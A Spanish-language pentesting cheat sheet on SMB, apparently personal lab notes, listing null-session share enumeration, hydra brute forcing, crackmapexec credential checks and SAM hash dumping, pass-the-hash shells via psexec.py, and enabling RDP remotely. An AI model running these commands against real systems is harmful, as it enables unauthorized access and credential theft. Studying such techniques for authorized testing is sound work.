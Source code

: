 # SMB ❮❯

Tags: #SMB #Comandos #Windows #Servidor 

❯ **smbclient -L ❮IP❯** Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ **smbclient -L ❮IP❯ -N** Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ **smbmap -H ❮IP❯** Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ **smbclient -L //❮IP❯/❮Dir❯ -N** Nos conectaremos a una carpeta con el uso de un null sesion (sin credencial alguna)
	❯ **dir** Mirar el contenido del directorio
	❯ **put ❮File❯** Para subir un archivo al dir SMB 
	❯ **get ❮File❯** Para descargar un archivo

❯ **crackmapexec smb ❮IP❯** Para listar recursos compartidos de Windows
❯ **crackmapexec smb ❮IP❯ --shares** Para listar los recursos de otra manera, pero aveces no funciona
❯ **crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯** Para el servicio **445/tcp smb** abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un **(****+****)** quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ **crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯**
Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo **Remote management users**, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.








- Comando -> **nmap --scripts “vuln and safe” -p< PORT> < TARGET IP> -oN < FILENAME>** Lanzara vulnerabilidades que no sean muy intrusivas de tipo seguro, va a mandar scripts al puerto 445 para saber si tiene alguna vulnerabilidad que podamos explotar.

- Comando -> **hydra -L user.list -P password.list smb://< IP>** Para ver si esos usuarios y passwd son validos

 **sudo apt-get -y install crackmapexec** Para instalar crackmapexec. CrackMapExec currently supports remote authentication using MSSQL, SMB, SSH, and WinRM.

- Comando -> **crackmapexec < proto> < target-IP> -u < user or userlist> -p < password or passwordlist>**
- Comando -> 
- Comando -> 
- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -p {‘password’}** Para el servicio **445/tcp smb** abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un **(****+****)** quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -p <‘PASSWORD’> --sam** Podremos listar el hash del usuario administrador y del resto que existan en el sistema, con los que podemos llegar a aplicar pass de hash  
- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -H <‘HASH’>** Con este comando verificamos que el usuario y su hash son validos y si es asi nos pondra un [+] Pwn3d!.
- Comando -> **psexec.py WORKGROUP/Administrator@< IP> -hashes <'HASH'>** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 

- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -H <‘HASH’> -M rdp -o action=enable** Podemos habilitar el RDP puerto 3389 

- Comando -> **smbclient -U user \\\\\\\\10.129.42.197\\\\SHARENAME** Nos permite ver el contenido de shares, uploads, download files si el privilegio nos lo permite
- Comando -> 
- Comando -> **smbmap -H** **{ip_targeted}** Herramienta elternativa para ver si nos reporta algo mas
- Comando -> **smbmap -H** **{ip_targeted} -u 'null'** Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)


- Comando -> **crackmapexec winrm {ip_targeted} -u {‘user’} -p {‘password’}**
Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo **Remote management users**, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

  

